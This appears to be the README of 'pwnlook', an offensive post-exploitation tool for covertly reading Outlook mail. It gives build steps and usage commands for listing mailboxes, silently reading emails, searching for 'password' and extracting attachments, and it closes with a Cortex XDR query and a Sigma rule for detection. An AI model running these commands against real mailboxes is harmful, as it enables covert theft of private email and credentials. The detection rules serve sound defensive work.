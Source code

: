 # pwnlook
Pwnlook is an offensive postexploitation tool that will give you complete control over the Outlook desktop application and therefore to the emails configured in it.
What it does:
- List mailboxes
- List folders
- Gather emails information
- Read email
- Search by recipient or subject
- Download attachments

It's possible to do almost everything that Outlook can do: send emails, create forward rules, list contacts... But all this is out of the scope of this project. **At the end of the this `README` you will find some detection techniques**.

Pwnlook is written in .NET 4.8.1

## Compile
To compile it you need first to register both DLLs. This is only for compilation, there is no need to register the DLL where you execute it:
```
regsvr32.exe .\Redemption.dll
regsvr32.exe .\Redemption64.dll
```

You can unregister them later:
```
regsvr32.exe -u .\Redemption.dll
regsvr32.exe -u .\Redemption64.dll
```
Open the `.sln` with Visual Studio and compile it. 

Then use [ILMerge](https://github.com/dotnet/ILMerge) to create a single binary:
```
.\ILMerge.exe /target:pwnlook481.exe /out:pwnlook.exe pwnlook481.exe Newtonsoft.Json.dll
```

## How it works
`pwnlook` communicates with Outlook via COM. By using the [Redemption library](https://www.dimastr.com/redemption/home.htm) it can gather all kind of information without triggering any alert to the user, even if you read an unread email the email will keep as unread for the user.

The tool comes with some limitations that are related with the, most likely, possibility of dealing with very big OST files. Thats why, for example, I didn't implement an option to "list all emails".

The `Redemption64.dll` must be in the same path as the `pwnlook.exe`. There is no need to register the DLL ([Registry free COM](https://www.dimastr.com/redemption/security.htm#redemptionloader)) so you can run it on behalf of any user, even if it isn't Local Admin.

```powershell
.\pwnlook.exe --help


                    .__                 __
________  _  ______ |  |   ____   ____ |  | __
\____ \ \/ \/ /    \|  |  /  _ \ /  _ \|  |/ /
|  |_> >     /   |  \  |_(  <_> |  <_> )    <
|   __/ \/\_/|___|  /____/\____/ \____/|__|_ \
|__|              \/                        \/


Usage: pwnlook.exe [options]

List mailboxes:
  -listmailboxes

List folders:
  -mailbox <mailbox> -listfolders

List emails from date:
  -mailbox <mailbox> -folder <Folder\Path> -date <yyyy-MM-dd>

List latest X emails from folder:
  -mailbox <mailbox> -folder <Folder\Path> -latest <X>

Read email:
  -mailbox <mailbox> -folder <Folder\Path> -id <ID>

Download attachment (base64):
  -mailbox <mailbox> -folder <Folder\Path> -id <ID> -attachment <X>

Search by sender or subject:
  -mailbox <mailbox> -folder <Folder\Path> -search <sender|subject> -value <string>

Result format in JSON
  -json

Examples:
.\pwnlook.exe -mailbox my@mail.com -folder "Inbox" -latest 20 -json        Lists latest 20 emails from Inbox
```

### List Mailboxes
First you must list the existing mailboxes `.\pwnlook.exe -listmailboxes`:
```
Available Mailboxes:
    - test_1@domaintest.tld
    - test_2@domaintest.tld
```

### List existing folders
`.\pwnlook.exe -mailbox "test_1@domaintest.tld" -listfolders`

```
IPM_SUBTREE
    Trash
    Inbox
        test1
    Outbox
    Sent
    Calendar (This computer only)
    Contacts (This computer only)
    Journal (This computer only)
    Notes (This computer only)
    Tasks (This computer only)
    Drafts
    RSS Feeds
    Conversation Action Settings (This computer only)
    Quick Step Settings (This computer only)
    Sync Issues (This computer only)
        Local Failures (This computer only)
    Junk
    Archive
    test2
```

### Examples
**List latest 3 emails from test1 folder**
```
.\pwnlook.exe -mailbox "test_1@domaintest.tld" -folder "Inbox\test1" -latest 3 -json
```

Output example in JSON:
```
  {
    "Sender": "aaaa@eeee.org",
    "Recipients": "test_1@domaintest.tld",
    "Subject": "Email1",
    "Body": null,
    "Attachments": [],
    "Date": "2024-08-21",
    "Folder": "test1",
    "ID": "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD500000000000F0000D9539C2261A6BB45B9DAB62C7081B3C101000D0000000000"
  }
```

**List emails from date**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -date "2024-08-12" -json
```
**Search email**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -search "sender" -value "boss" -json
```

```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "Inbox" -search "subjet" -value "password" -json
```

**Read email**

Use the `ID` to read the email:
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "test2" -read "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000" -json
```

```
{
  "Sender": "aaaa@eeee.org",
  "Recipients": "test_1@domaintest.tld",
  "Subject": "Re: testeando",
  "Body": "Ok a todo\r\n\r\n\r\nEl 12 de agosto de 2024 11:30:25 CEST, test_1@domaintest.tld escribió:\r\n\r\n\temail de prueba\r\n\r\n",
  "Attachments": [
    "Senior Security Analyst - Job Description.pdf"
  ],
  "Date": "2024-08-12",
  "Folder": "test2",
  "ID": "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000"
}
```

**Download attachment**
```
.\pwnlook.exe -mailbox test_1@domaintest.tld -folder "test2" -read "0000000057C2BFB33842564EBEE8060D4BBE7C4A0700FCDA005631565E4A933C1CF9DF307DD50000000000110000FCDA005631565E4A933C1CF9DF307DD50000000016000000" -attachment 0 > base64.txt
```

The attachment is encoded in `base64`, you can dump it as a file with Powershell like:
```
[System.IO.File]::WriteAllBytes("outputFile.pdf", [System.Convert]::FromBase64String([System.IO.File]::ReadAllText("base64.txt")))
```

## Detect

In your EDR you can search for unsigned processes accessing `OST` files.

In Cortex XDR would be like:

```
config case_sensitive = false
| preset = xdr_file 
| filter event_sub_type = ENUM.FILE_OPEN 
| filter action_file_path ~= "C:\\Users\\.*\\AppData\\Local\\Microsoft\\Outlook\\.*\.ost$" and actor_process_signature_status = UNSIGNED
| fields _time, agent_hostname , actor_effective_username , action_file_path, actor_process_image_name , actor_process_command_line, actor_process_image_sha256  , actor_process_signature_status , actor_process_signature_vendor 
```

Sigma rule:
```yml
title: Access to OST files by uncommon process
id: 0ea56b07-0bc6-4c8b-8b8a-e32de0557a5e
status: experimental
description: |
    Detects malicious software reading emails directly from OST files.
references:
    - https://github.com/amjcyb/pwnlook
author: amjcyb
date: 2024-09-10
tags:
    - attack.collection
    - attack.t1114.001
logsource:
    category: file_access
    product: windows
    definition: 'Requirements: Microsoft-Windows-Kernel-File ETW provider'
detection:
    selection:
        FileName|endswith: '.ost'
        FileName|contains:
            - 'AppData\Local\Microsoft\Outlook'
    filter_system_folders:
        Image|startswith:
            - 'C:\Program Files\'
            - 'C:\Program Files (x86)\'
            - 'C:\Windows\system32\'
            - 'C:\Windows\SysWOW64\'
    condition: selection and not 1 of filter_*
falsepositives:
    - Other email software
level: high
```

